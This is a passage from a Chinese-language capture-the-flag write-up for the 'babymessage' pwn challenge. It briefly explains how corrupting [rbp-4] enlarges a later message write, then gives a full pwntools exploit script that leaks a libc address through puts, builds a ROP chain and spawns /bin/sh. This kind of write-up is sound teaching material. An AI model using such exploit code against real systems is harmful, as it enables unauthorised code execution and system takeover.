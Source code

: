 所以下次执行leave_massage函数的时候，[rbp-4]地址改变，参数的值也发生了改变

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gi2y4ui5hpj31830u0juu.jpg)

所以第二次调用就可以写入0x100的字节，rop就完事了

exp：

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'

elf=ELF('./babymessage')
libc=ELF("./libc-2.27.so")


def pwn():
	
	poprdi=0x0000000000400ac3
	puts=elf.plt['puts']
	puts_got=elf.got['puts']

	p.recvuntil('choice: \n')
	p.sendline('2')
	p.recvuntil('message:')
	p.sendline('aaaaaaaa')

	p.recvuntil('choice:')
	p.sendline('2')
	p.recvuntil('message:')
	
	payload = 'b'*0x10+p64(poprdi)+p64(puts_got)+p64(puts)
	payload += p64(0x4006E0)
	p.sendline(payload)
	
	p.recvline()
	p.recvline()
	p.recvline()
	puts=u64(p.recv(6).ljust(8,'\x00'))
	print hex(puts)

	libcbase=puts-libc.sym['puts']
	system_addr=libcbase+libc.sym['system']
	bin_sh=libcbase+libc.search("/bin/sh\x00").next()

	p.recvuntil('choice: \n')
	p.sendline('2')
	p.recvuntil('message:')
	p.sendline('c'*8)
	
	p.recvuntil('choice:')
	p.sendline('2')
	p.recvuntil('message:')
  
	ret = 0x0000000000400646
	payload = 'd'*16+p64(poprdi)+p64(bin_sh)+p64(ret)+p64(system_addr)
	p.sendline(payload)
	

	p.interactive()
	
```
